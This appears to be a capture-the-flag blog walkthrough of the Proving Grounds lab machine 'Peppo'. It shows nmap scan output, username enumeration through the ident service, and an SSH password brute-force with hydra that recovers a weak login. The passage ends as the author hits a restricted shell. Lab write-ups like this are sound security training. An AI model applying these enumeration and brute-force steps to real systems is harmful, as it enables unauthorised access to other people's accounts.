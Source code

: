 ```yaml
---
layout: default
title : muzec - Peppo - Proving Ground Practice 
---
```



### Enumeration With Nmap

`nmap -p- --min-rate 10000 -oA nmap/allports -v 10.10.11.125`

```
# Nmap 7.91 scan initiated Sun Nov 28 08:53:20 2021 as: nmap -p- --min-rate 10000 -oA nmap/allports -v -Pn 192.168.141.60
Increasing send delay for 192.168.141.60 from 0 to 5 due to 11 out of 24 dropped probes since last increase.
Nmap scan report for 192.168.141.60
Host is up (0.29s latency).
Not shown: 65529 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
113/tcp   open   ident
5432/tcp  open   postgresql
8080/tcp  open   http-proxy
10000/tcp open   snet-sensor-mgmt

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sun Nov 28 08:54:22 2021 -- 1 IP address (1 host up) scanned in 62.41 seconds
```

Smooth so much ports oh sorry i mean few ports hehehehe sweet now let use some default nmap script and service detection to get more information from the ports we have running.

`nmap -sC -sV -oA nmap/normal -p 22,113,5432,8080,10000 IP`

```
# Nmap 7.91 scan initiated Sun Nov 28 10:11:18 2021 as: nmap -sC -sV -oA nmap/normal -p 22,113,5432,8080,10000 -Pn 192.168.235.60
Nmap scan report for 192.168.235.60
Host is up (0.48s latency).

PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
|_auth-owners: root
| ssh-hostkey: 
|   2048 75:4c:02:01:fa:1e:9f:cc:e4:7b:52:fe:ba:36:85:a9 (RSA)
|   256 b7:6f:9c:2b:bf:fb:04:62:f4:18:c9:38:f4:3d:6b:2b (ECDSA)
|_  256 98:7f:b6:40:ce:bb:b5:57:d5:d1:3c:65:72:74:87:c3 (ED25519)
113/tcp   open  ident             FreeBSD identd
|_auth-owners: nobody
5432/tcp  open  postgresql        PostgreSQL DB 9.6.0 or later
| fingerprint-strings: 
|   SMBProgNeg: 
|     SFATAL
|     VFATAL
|     C0A000
|     Munsupported frontend protocol 65363.19778: server supports 2.0 to 3.0
|     Fpostmaster.c
|     L2071
|_    RProcessStartupPacket
8080/tcp  open  http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
| http-robots.txt: 4 disallowed entries 
|_/issues/gantt /issues/calendar /activity /search
|_http-server-header: WEBrick/1.4.2 (Ruby/2.6.6/2020-03-31)
|_http-title: Redmine
10000/tcp open  snet-sensor-mgmt?
|_auth-owners: eleanor
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, RTSPRequest, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Sun, 28 Nov 2021 12:11:23 GMT
|     Connection: close
|     Hello World
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Sun, 28 Nov 2021 12:11:25 GMT
|     Connection: close
|_    Hello World
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5432-TCP:V=7.91%I=7%D=11/28%Time=61A347C3%P=x86_64-pc-linux-gnu%r(S
SF:MBProgNeg,8C,"E\0\0\0\x8bSFATAL\0VFATAL\0C0A000\0Munsupported\x20fronte
SF:nd\x20protocol\x2065363\.19778:\x20server\x20supports\x202\.0\x20to\x20
SF:3\.0\0Fpostmaster\.c\0L2071\0RProcessStartupPacket\0\0");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port10000-TCP:V=7.91%I=7%D=11/28%Time=61A347C0%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,71,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\
SF:nDate:\x20Sun,\x2028\x20Nov\x202021\x2012:11:23\x20GMT\r\nConnection:\x
SF:20close\r\n\r\nHello\x20World\n")%r(HTTPOptions,71,"HTTP/1\.1\x20200\x2
SF:0OK\r\nContent-Type:\x20text/plain\r\nDate:\x20Sun,\x2028\x20Nov\x20202
SF:1\x2012:11:25\x20GMT\r\nConnection:\x20close\r\n\r\nHello\x20World\n")%
SF:r(RTSPRequest,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20
SF:close\r\n\r\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:nnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSStatusReques
SF:tTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n
SF:\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20
SF:close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n");
Service Info: OSs: Linux, FreeBSD; CPE: cpe:/o:linux:linux_kernel, cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 28 10:12:27 2021 -- 1 IP address (1 host up) scanned in 69.06 seconds

```

### NMAP

`By default (-sC) nmap will identify every user of every running port:`

```
|_auth-owners: root
| ssh-hostkey: 
|   2048 75:4c:02:01:fa:1e:9f:cc:e4:7b:52:fe:ba:36:85:a9 (RSA)
|   256 b7:6f:9c:2b:bf:fb:04:62:f4:18:c9:38:f4:3d:6b:2b (ECDSA)
|_  256 98:7f:b6:40:ce:bb:b5:57:d5:d1:3c:65:72:74:87:c3 (ED25519)
113/tcp   open  ident             FreeBSD identd
|_auth-owners: nobody
5432/tcp  open  postgresql        PostgreSQL DB 9.6.0 or later
| fingerprint-strings: 
|   SMBProgNeg: 
|     SFATAL
|     VFATAL
|     C0A000
|     Munsupported frontend protocol 65363.19778: server supports 2.0 to 3.0
|     Fpostmaster.c
|     L2071
|_    RProcessStartupPacket
8080/tcp  open  http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
| http-robots.txt: 4 disallowed entries 
|_/issues/gantt /issues/calendar /activity /search
|_http-server-header: WEBrick/1.4.2 (Ruby/2.6.6/2020-03-31)
|_http-title: Redmine
10000/tcp open  snet-sensor-mgmt?
|_auth-owners: eleanor
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
```

Which is `auth-owners:` with each users on the front cool right now let leave nmap alone and focus on the ports. Some pretty cool ports which is great i guess without wasting to much of time let jump and start the enumeration on each ports to see what we can get on each ones. SSH we need a credentials for that so we are starting with `ident` .

### IDENT 113

Ident Is an Internet protocol that helps identify the user of a particicular TCP connection one of the tools i will be using to enumerate ident is `Ident-user-enum`

Ident-user-enum is a simple PERL script to query the ident service (113/TCP) in order to determine the owner of the process listening on each TCP port of a target system. The list of usernames gathered can be used for password guessing attacks on other network services. It can be installed with `apt install ident-user-enum`.


` ident-user-enum  192.168.202.60 22 113 5432 8080 10000`

```
┌──(muzec㉿Muzec-Security)-[~/Documents/PG/PG Practice/peppo]
└─$ ident-user-enum   192.168.141.60 22 113 5432 8080 10000
ident-user-enum v1.0 ( http://pentestmonkey.net/tools/ident-user-enum )

192.168.141.60:22       root
192.168.141.60:113      nobody
192.168.141.60:5432     <unknown>
192.168.141.60:8080     <unknown>
192.168.141.60:10000    eleanor
```

Now that we have enumerate for users let trying using it to brute force for SSH and see if we can get access using `hydra` .

```
┌──(muzec㉿Muzec-Security)-[~/Documents/PG/PG Practice/peppo]
└─$ hydra -l eleanor -P /usr/share/wordlists/rockyou.txt -e nsr ssh://192.168.90.60  
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-28 10:55:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344402 login tries (l:1/p:14344402), ~896526 tries per task
[DATA] attacking ssh://192.168.90.60:22/
[22][ssh] host: 192.168.90.60   login: eleanor   password: eleanor
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-28 10:56:14
```

Boom we have credentials for SSH let use to access it.

![image](https://user-images.githubusercontent.com/69868171/143768823-dbb66021-7ce8-44b7-951f-4867ccc59685.png)

But when i try to cat any file i got an error changing directories also lead to the same issue seems we are stuck in an rbash shell.

![image](https://user-images.githubusercontent.com/69868171/143769013-53e28d12-c444-4f45-be46-0c0ecdc368ca.png)

Let try escaping it
